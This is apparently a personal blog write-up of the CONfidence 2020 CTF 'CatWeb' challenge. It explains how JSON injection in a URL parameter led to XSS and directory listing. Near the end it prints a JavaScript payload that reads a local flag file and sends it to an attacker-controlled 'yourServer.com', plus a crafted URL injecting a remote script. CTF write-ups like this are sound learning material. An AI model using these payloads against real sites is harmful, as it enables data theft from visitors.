 ```yaml
---
title: "CONfidence 2020: CatWeb"
date: 2020-04-22T00:46:19-06:00
draft: false
author: "Jamvie"
feature_image: https://images.pexels.com/photos/1643456/pexels-photo-1643456.jpeg?auto=compress&cs=tinysrgb&dpr=2&h=650&w=940
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 

![HomePage](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWeb_HomePage.png)


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```
![brokenrequest](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/NotFound.png)

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 

![XSS](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/XSSJsonInCatWeb.png)


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

![templates](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebTemplates.png)

I traversed through the directories, but in the templates subfolder...

![flagLocn](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebFlagLocn.png)

Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like

```
file:///app/templates/flag.txt
```

````flag.txt``` is locally saved - everything in ```templates``` is locally saved. We can use this to our advantage: create an XSS attack on the ``file://`` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here:

1. Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):
```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing'));
```


2. Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

3. Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 

References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels